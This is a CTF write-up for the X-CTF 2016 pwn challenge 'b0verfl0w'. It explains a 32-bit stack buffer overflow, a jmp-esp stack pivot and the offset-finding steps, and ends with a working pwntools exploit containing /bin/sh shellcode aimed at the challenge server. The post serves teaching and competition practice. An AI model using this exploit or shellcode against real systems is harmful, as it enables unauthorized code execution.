 ```yaml
---
layout: post
title: X-CTF - b0verfl0w (Pwn)
modified:
categories: blog
excerpt: "Write up for b0verfl0w an exploitation challenge I wrote for X-CTF quals 2016."
tags: []
image:
  feature:
date: 2016-04-22T01:03:15+08:00
---
```


X-CTF is a capture the flag competition in Singapore organized by NUS Greyhats. The online qualifiers took place over the weekend of 9 - 10 April 2016. Halfway through the competition, we realize that the challenges were solved pretty quickly by the participants, and thus I wrote some new challenges. The following two challenges were by me.

# b0verfl0w
**Category:** Pwn  
**Description**
[b0verfl0w](/resources/files/x-ctf/c343c76a9bc18021a2ebda77730d85e1) is running at 188.166.226.181:4242.

---

# Solution

So from the name of the challenge, this is an obvious buffer overflow challenge. However, obvious it would not be as simple as a classic buffer overflow. In this case, we're given the binary without the source code, so first thing to do is to analyze the binary for the buffer overflow vulnerability, and to determine if there are any useful gadgets we can use to build an exploit.

We got a 32-bit ELF executable here.

{% highlight sh linenos %}
→ file *
c343c76a9bc18021a2ebda77730d85e1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, not stripped
→ ./boverflow

======================

Welcome to X-CTF 2016!

======================
What's your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.Segmentation fault (core dumped)
{% endhighlight %}

The vulnerability is very obviously on the name input. There are many ways to continue from here, and what I am writing is just one of the way.

Using GDB with peda, I am able to quickly find the amount of offset required until the EIP register using the pattern search plugin.
{% highlight sh linenos %}
gdb-peda$ pattern create 100 /tmp/input
Writing pattern of 100 chars to filename "/tmp/input"
gdb-peda$ r < /tmp/input
Starting program: /home/vagrant/CTF/X-CTF/xctf-2016-challs/qualifiers/pwn/b0verfl0w/grader/b0verfl0w_dep/boverflow < /tmp/input

======================

Welcome to X-CTF 2016!

======================
What\'s your name?
Hello AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb.
Program received signal SIGSEGV, Segmentation fault.
gdb-peda$ pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 32
EIP+0 found at offset: 36
{% endhighlight %}

So what this tells me is that I'll have to fill the first 36 bytes of input with junk before filling the 4 bytes with the memory address I'd like the program to jump to.

In a classical buffer overflow, what I'd do is to fill the 36 bytes with shellcode, and then modify the EIP value to jump to where my shellcode is located. However, this is only feasible if (1) I know the memory address of the shellcode, (2) DEP is not enabled and (3) if ASLR was not enabled, it'd be slightly easier to bruteforce the memory address of the shellcode.

In this case, DEP is disabled. However, we do not have any information of the memory layout or the libc addresses (which would allows us to craft a return-to-libc or ROP exploit).

However, upon closer inspection, you will notice that there are some ROP gadgets provided in the binary that could allow us to perform stack pivoting and thus execute our shellcode. Conveniently it's contained in a function called `hint` ;).

{% highlight objdump linenos %}
80484fd <hint>:
 80484fd:   55                      push   %ebp
 80484fe:   89 e5                   mov    %esp,%ebp
 8048500:   83 ec 24                sub    $0x24,%esp
 8048503:   c3                      ret
 8048504:   ff e4                   jmp    *%esp
 8048506:   c3                      ret
 8048507:   b8 01 00 00 00          mov    $0x1,%eax
 804850c:   5d                      pop    %ebp
 804850d:   c3                      ret
{% endhighlight %}

We see a `jmp $esp` followed by a `ret` instruction that would allow us to perform a stack pivot. 

Memory layout:  
| Shellcode | Offset | 0x08048504 | Shellcode to perform stack pivoting |

At the point when the program jumps to 0x08048504, $esp would be pointing at the start of `Shellcode to perform stack pivoting`, so what is needed here to do a stack pivot is `sub 0x28,$esp` followed by `jmp $esp` again. However, you need to convert the instructions into their respective hex representation. We perform a sub 0x28 because the `shellcode + payload + 0x08048504` takes up 40 bytes and we want the next `jmp $esp` to jump to the start of our shellcode.

For the shellcode portion, you can use any simple shellcode off the internet.

I wrote the exploit in python and used the pwntools library to simplify the entire exploitation process.  
Final exploit:
{% highlight python linenos %}
from pwn import *

r = remote('188.166.226.181', 4242)
Shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
Payload = "A"*13
JmpESPGadget = "\x04\x85\x04\x08"
ShellcodeStackPivot = "\x83\xec\x28\xff\xe4"
payload = Shellcode + Payload + JmpESPGadget + ShellcodeStackPivot
print payload
r.send(payload)
r.interactive()
{% endhighlight %}

Running our exploit provides us with a shell. :)

{% highlight bash linenos %}
$ cat flag.txt
XCTF{b0verfl0wed_w3ll_d0ne}
{% endhighlight %}

And we have our flag! 

